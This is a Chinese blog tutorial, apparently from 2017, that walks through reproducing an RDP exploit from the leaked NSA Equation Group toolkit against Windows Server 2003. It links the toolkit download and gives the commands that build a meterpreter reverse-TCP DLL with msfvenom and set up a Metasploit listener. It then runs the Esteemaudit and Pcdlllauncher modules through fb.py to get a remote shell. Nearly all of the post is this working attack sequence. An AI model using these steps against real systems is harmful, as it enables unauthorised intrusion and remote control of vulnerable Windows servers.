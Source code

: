 ```yaml
---
title: NSA工具包验证之RDP漏洞利用
date: 2017-06-15 21:32:39
tags: 网络安全
index_img: /assets/headImg/kali.png
---
```


### 验证环境：

攻击机1(本次演示IP：172.16.11.2)：windows系统，[安装python2.6.6](https://www.python.org/download/releases/2.6.6/), [pywin32-221.win32-py2.6.exe](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/), xshell, xftp, [下载方程式工具包](https://codeload.github.com/misterch0c/shadowbroker/zip/master)放到C盘，在工具包目录下的windows目录新建文件夹"listeningposts"，并且开放所有端口关闭防火墙，确保内网可以访问之

攻击机2(本次演示IP：172.16.12.2)：kali linux，需要开启ssh服务，详情百度

目标机1(本次演示IP：172.16.12.4)：开放了3389端口的Windows Server 2003

以上所有IP之间均可以直接访问
### 验证步骤：
<!--more-->
#### 第一步：生成可执行的恶意dll文件
0x01
首先通过xshell连接到kali linux，打开xshell，在跳出来的窗口点击new(新建)，然后填入kali的IP地址点击确定然后连接，接着依次输入kali的账号与密码即可连接，可能会跳出安全警告，点击接收并保存即可，连接完成得到如图：
![1.jpg](post162/1.jpg)
0x02
执行命令：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.12.2 LPORT=5555 -f dll >s.dll
```
在kali根目录下生成s.dll文件，其中LHOST为kali的IP地址，LPORT为一个可任意填写的端口，届时将使目标机执行该dll向172.16.12.2:5555发送shell
0x03
点击xshell如图位置
![3.jpg](post162/3.jpg)
打开本地C盘，并将kali目录下刚刚生成的s.dll复制到本机的C盘根目录下，如图
![4.jpg](post162/4.jpg)

#### 第二步：配置kali使得kali处于监听状态
0x01
依次输入命令
```
msfconsole
use exploit/multi/handler
set lhost 172.16.12.2
set lport 5555
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```
看到如图即说明配置成功
![2.jpg](post162/2.jpg)
这时就可以将xshell最小化，等后边再用

#### 第三步：使用方程式工具包进行攻击
0x01
将方程式工具包下的windows文件夹重命名为win，然后拷贝到C盘根目录下，并在该文件夹下新建一个名为"listeningposts"的文件夹，如图，不然运行会报错
![5.jpg](post162/5.jpg)
0x02
打开命令提示符，输入

```
C:\win\fb.py
```
然后依次输入目标IP，本地IP，是否重定向，日志存放位置，新建工程，给该工程命名，最后确认，如图
![1.jpg](post162/1-16273800337215.jpg)
最后敲击回车
0x03
显示出`fb >`之后输入命令

```
use Esteemaudit
```
使用该工具，之后除了下图所示位置需要修改，其他都保持默认直接敲击回车即可
（设置监听还是连接、系统位数、系统版本）
![2.jpg](post162/2-16273801063656.jpg)
（回拨IP以及端口，端口号可以任意设置）
![3.jpg](post162/3-16273801178697.jpg)
（配置DLL路径，需要改为实际路径）
![4.jpg](post162/4-16273801287108.jpg)
之后几个回车即可看到连接成功，如图
![5.jpg](post162/5-16273801405719.jpg)
0x04
接着输入命令

```
use Pcdlllauncher
```
使用Pcdlllauncher，除了下图其他保持默认即可
（改为自己的实际路径）
![6.jpg](post162/6.jpg)
（之前生成的s.dll路径）
![7.jpg](post162/7.jpg)
之后不断回车，会看到如图
![10.jpg](post162/10.jpg)
不用理他，打开xshell可以看到已经成功反弹shell，如下图
![8.jpg](post162/8.jpg)
然后就可以比如说输入shell模拟终端执行命令了
![9.jpg](post162/9.jpg)